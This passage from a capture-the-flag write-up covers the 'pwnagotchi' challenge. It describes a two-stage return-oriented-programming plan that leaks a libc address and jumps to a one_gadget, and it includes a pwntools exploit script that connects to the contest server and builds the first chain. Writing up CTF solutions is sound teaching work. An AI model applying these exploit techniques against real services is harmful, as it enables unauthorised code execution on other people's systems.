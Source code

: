 Lucky for us, the binary provides us with two helper functions `eat` and `zzz`, which sets both `hungry` and `sleepy` to `0`.

Okay so let's summarize our plan of attack:

1. First ROP Chain
  - Leak the address of puts@libc (call `puts(puts)`)
  - Calculate libc base address, then `one_gadget` address
  - Call `eat()`
  - Call `zzz()`
  - Call `main()`

2. Second ROP Chain
  - Call `one_gadget`
3. Profit

Now let's write our exploit.

```python
#! /usr/bin/python2

from pwn import *

HOST = 'pwn.hsctf.com'
PORT = 5005
BINARY = './pwnagotchi'

elf = context.binary = ELF(BINARY)
libc = ELF('libc.so.6')

libc.symbols['one_gadget'] = 0x4f322

# RIP Padding

p = process(BINARY)
p.sendline(cyclic(64, n = 8))
p.wait()

core = p.corefile

p.close()
os.remove(core.file.name)

PAYLOAD_PADDING = cyclic_find(core.read(core.rsp, 8), n = 8)

log.success('Found padding length: {}'.format(PAYLOAD_PADDING))

# Start connection

r = remote(HOST, PORT)

# Stage 1: Build ROP Chain
# - Leak puts@libc
# - Call eat()
# - Call zzz()
# - Call main()

rop = ROP(elf)
rop.puts(elf.got.puts)
rop.eat()
rop.zzz()
rop.main()

log.success('Built ROP Chain (Leak, eat, zzz, main)')
log.success(rop.dump())

```